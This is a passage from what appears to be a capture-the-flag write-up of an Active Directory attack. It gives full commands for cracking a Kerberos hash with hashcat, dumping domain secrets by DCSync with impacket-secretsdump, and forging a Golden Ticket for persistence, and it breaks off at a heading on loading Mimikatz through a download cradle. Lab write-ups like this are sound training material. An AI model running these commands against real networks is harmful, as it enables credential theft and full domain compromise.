 
### Cracking the Ethan's Kerberos hash with hashcat: {#cracking-the-ethan-s-kerberos-hash-with-hashcat}

-   **Cracking ethans kerberos has with hashcat**:
    -   `hashcat -m 13100 ethan.kerb /home/kali/Wordlists/rockyou.txt -O`
        -   {{< figure src="/ox-hugo/2024-11-10-115411_.png" >}}
        -   It cracks

-   **We Verify his creds work**:
    -   `netexec smb $box -u $user -p $pass --shares`
    -   {{< figure src="/ox-hugo/2024-11-10-115519_.png" >}}


### Performing a DCSync Attack with impacket-secretsdump: {#performing-a-dcsync-attack-with-impacket-secretsdump}

-   As ethan has DC-Sync privileges we can perform a DC-Sync attack now.

-   **Performing the DC-Sync attack as Ethan**:
    -   `impacket-secretsdump $domain/$user:$pass@$box`
    -   {{< figure src="/ox-hugo/2024-11-10-115814_.png" >}}

-   **Getting our root flag via evil-winrm and PTH**:
    -   {{< figure src="/ox-hugo/2024-11-10-125113_.png" >}}


## 4. Persistence: {#4-dot-persistence}


### Trying to create a Kerberos Golden Ticket: {#trying-to-create-a-kerberos-golden-ticket}

-   **Using** `impacket-lookupsid` **to get the Search for the Domain SID**:
    -   `impacket-lookupsid $domain/$user@$machine.$domain -domain-sids`
    -   {{< figure src="/ox-hugo/2024-11-10-125258_.png" >}}

-   **Sync our clock to the host using ntupdate**:
    -   `sudo ntpdate -s $domain`

-   **Using** `impacket-ticketer` **to create the Golden Ticket**:
    -   `impacket-ticketer -nthash $krbtgt -domain-sid $sid -domain $domain Administrator`

-   **Export the ticket to the** `KRB5CCNAME` **Variable**:
    -   `export KRB5CCNAME=./administrator.ccache`

-   **Use the ticket for connecting via** `psexec`
    -   `impacket-psexec -k -no-pass $machine.$domain`
    -   {{< figure src="/ox-hugo/2024-11-10-140710_.png" >}}
    -   +Note+:
        -   This error occurs because protections are in place that prevent ticket creation using NT hashes or RC4 encryption.
        -   Instead, we need to create a Golden Ticket using the AES hash of the KRBTGT account.


### Using a download Cradle to load invoke-mimikatz into memory: {#using-a-download-cradle-to-load-invoke-mimikatz-into-memory}
